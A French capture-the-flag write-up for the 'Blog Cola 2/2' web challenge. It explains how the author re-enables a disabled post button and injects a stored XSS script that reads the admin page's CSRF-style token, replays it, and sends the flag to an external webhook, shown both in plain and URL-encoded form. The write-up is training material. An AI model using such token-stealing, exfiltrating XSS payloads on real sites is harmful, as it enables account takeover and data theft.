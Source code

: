 # Write-Up - Web / Blog Cola 2/2

## Description du challenge et objectif

Ce challenge a pour objectif d’introduire les failles présentes sur les clients web. Pour ce faire, vous avez accès à un site web de Popa Cola : Blog Cola.

C’est par le biais de ce site que l’entreprise concurrente dénigre Freizh Cola. Il faut donc prendre le contrôle du site afin de mettre un terme à cette mauvaise publicité.

Pour cela, il sera nécessaire de devenir administrateur sur le site web, ce qui donnera accès au panneau d’administration (qui affiche le flag).

## Modifications par rapport au challenge précédent

### HttpOnly

Le cookie est maintenant défini en tant que `HttpOnly` :

```py
# dans bot.py

def visit(url, token):

    [...]

    driver.add_cookie({
        "name": "token",
        "value": token,
        "path": "/",
        "httpOnly": True,
        "samesite": "Strict",
        "domain": "127.0.0.1"
    })

    [...]
```

### Désactivation de la création de posts

```html
<!-- Dans templates/create.html -->

[...]

<form action="" method="post">
    <input type="text" name="title" placeholder="Title" required>
    <fieldset id="tinyMCE"></fieldset>
    <button type="submit" disabled="true">Cr&eacute;er</button>
</form>

[...]
```

### Changement de la mécanique de récupération du flag

```py
# dans app.py

@app.route("/admin", methods=["GET", "POST"])
def admin():
    global token

    if request.method == "GET":
        if not request.cookies.get("token") == ADMIN_SESSION_KEY:
            return redirect("/")
        
        token = "".join([ascii_letters[randint(0, len(ascii_letters) - 1)] for _ in range(50)])
        return render_template("admin.html", token=token)

    if request.method == "POST":
        # vérifie que l'utilisateur est admin
        if not request.cookies.get("token") == ADMIN_SESSION_KEY:
            return redirect("/")
        
        # vérifie que le token transmis est le bon -> la requête vient bien de la page admin
        if not request.form.get("flag-token") == token:
            return redirect("/")
        
        return FLAG
```

```html
<!-- Dans templates/admin.html -->

[...]
<div class="flag-container">
    <button onclick="getflag()">R&eacute;cup&eacute;rer le flag</button>
    <h1 hidden="true" id="flag-title">Flag</h1>
    <p id="flag-container"></p>
</div>

<script>
    function getflag() {
        token = "{{token}}"
        flag_container = document.getElementById("flag-container")
        flag_title = document.getElementById("flag-title")

        fetch("/admin", {
            method: "POST",
            body: new URLSearchParams({
                "flag-token": token
            })
        }).then((r) => r.text()).then((q) => {
            flag_container.innerHTML = q
            flag_title.hidden = false
        })
    }
</script>
[...]
```

La nouvelle page admin contient un bouton qui envoie une requête POST pour récupérer le flag. Cette récupération repose à la fois sur le cookie d’authentification admin et sur un nouveau token généré à chaque chargement de la page.

## Exploitation

Pour contourner ces nouvelles protections, il est d’abord nécessaire de pouvoir créer des articles. Ici, c’est assez simple : il suffit de modifier l’attribut HTML du bouton désactivé pour pouvoir l’utiliser de nouveau. Par exemple, en supprimant complètement l’attribut `disabled`.

![désactivation bouton](./wu/image-21.png)

Pour la suite de l’exploitation, on peut se référer au premier challenge. Ce qui change ici, c’est le script JavaScript utilisé.

En effet, il faut un script qui :
- récupère le `flag-token` via un accès GET à `/admin` ;
- envoie ce `flag-token` via une requête POST sur `/admin` ;
- redirige le contenu de la réponse vers un webhook.

```js
fetch("/admin").then(
    (r) => r.text()
).then(
    (q) => {
        flag = q.match(/token = "[A-Za-z]*"/g)[0].match(/[A-Za-z]{10,50}/g)[0]; // extrait le flag-token
        fetch("/admin", {
            method: "POST",
            body: new URLSearchParams({ 'flag-token': flag })
        }).then(
            (s) => s.text()
        ).then(
            (x) => fetch("https://hhhhhh.free.beeceptor.com?flag=" + x) // envoie le flag au webhook
        );
    }
)
```

Ce qui donne, après encodage URL, le payload final :

```html
title=bbbbb&tinyMCE=<script>fetch%28%22%2Fadmin%22%29%2Ethen%28%0A%20%20%20%20%28r%29%20%3D%3E%20r%2Etext%28%29%0A%29%2Ethen%28%0A%20%20%20%20%28q%29%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20flag%20%3D%20q%2Ematch%28%2Ftoken%20%3D%20%22%5BA%2DZa%2Dz%5D%2A%22%2Fg%29%5B0%5D%2Ematch%28%2F%5BA%2DZa%2Dz%5D%7B10%2C50%7D%2Fg%29%5B0%5D%3B%0A%20%20%20%20%20%20%20%20fetch%28%22%2Fadmin%22%2C%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20method%3A%20%22POST%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20body%3A%20new%20URLSearchParams%28%7B%20%27flag%2Dtoken%27%3A%20flag%20%7D%29%0A%20%20%20%20%20%20%20%20%7D%29%2Ethen%28%0A%20%20%20%20%20%20%20%20%20%20%20%20%28s%29%20%3D%3E%20s%2Etext%28%29%0A%20%20%20%20%20%20%20%20%29%2Ethen%28%0A%20%20%20%20%20%20%20%20%20%20%20%20%28x%29%20%3D%3E%20fetch%28%22https%3A%2F%2Fhhhhhh%2Efree%2Ebeeceptor%2Ecom%3Fflag%3D%22%20%2B%20x%29%3B%0A%20%20%20%20%7D%0A%29</script>
```

Ce payload permet donc de recevoir directement le flag sur votre webhook.

![flag](./wu/image-22.png)
